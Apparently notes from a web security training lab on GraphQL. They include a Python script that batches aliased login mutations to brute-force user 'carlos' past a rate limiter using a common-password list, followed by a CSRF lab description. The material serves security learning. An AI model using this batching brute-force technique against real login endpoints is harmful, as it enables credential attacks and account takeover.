 The user login mechanism for this lab is powered by a GraphQL API. The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.

To solve the lab, brute force the login mechanism to sign in as carlos. Use the list of authentication lab passwords as your password source.

```py
passwords = [
    "123456", "password", "12345678", "qwerty", "123456789", "12345", "1234", "111111", "1234567",
    "dragon", "123123", "baseball", "abc123", "football", "monkey", "letmein", "shadow", "master",
    "666666", "qwertyuiop", "123321", "mustang", "1234567890", "michael", "654321", "superman", "1qaz2wsx",
    "7777777", "121212", "000000", "qazwsx", "123qwe", "killer", "trustno1", "jordan", "jennifer",
    "zxcvbnm", "asdfgh", "hunter", "buster", "soccer", "harley", "batman", "andrew", "tigger",
    "sunshine", "iloveyou", "2000", "charlie", "robert", "thomas", "hockey", "ranger", "daniel",
    "starwars", "klaster", "112233", "george", "computer", "michelle", "jessica", "pepper", "1111",
    "zxcvbn", "555555", "11111111", "131313", "freedom", "777777", "pass", "maggie", "159753",
    "aaaaaa", "ginger", "princess", "joshua", "cheese", "amanda", "summer", "love", "ashley", "nicole",
    "chelsea", "biteme", "matthew", "access", "yankees", "987654321", "dallas", "austin", "thunder",
    "taylor", "matrix", "mobilemail", "mom", "monitor", "monitoring", "montana", "moon", "moscow"
]

def generate_query(username, passwords):
    query_parts = []
    for index, password in enumerate(passwords):
        query_parts.append(
            f"bruteforce{index}: login(input: {{ username: \"{username}\", password: \"{password}\" }}) {{\n"
            f"        token\n"
            f"        success\n"
            f"    }}"
        )

    query = "mutation login  {\n" + "\n".join(query_parts) + "\n}"
    return query

username = "carlos"
generated_query = generate_query(username, passwords)
print(generated_query)
```
### Lab: Performing CSRF exploits over GraphQL

The user management functions for this lab are powered by a GraphQL endpoint. The endpoint accepts requests with a content-type of x-www-form-urlencoded and is therefore vulnerable to cross-site request forgery (CSRF) attacks.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address, then upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter.

Learn more about Working with GraphQL in Burp Suite. 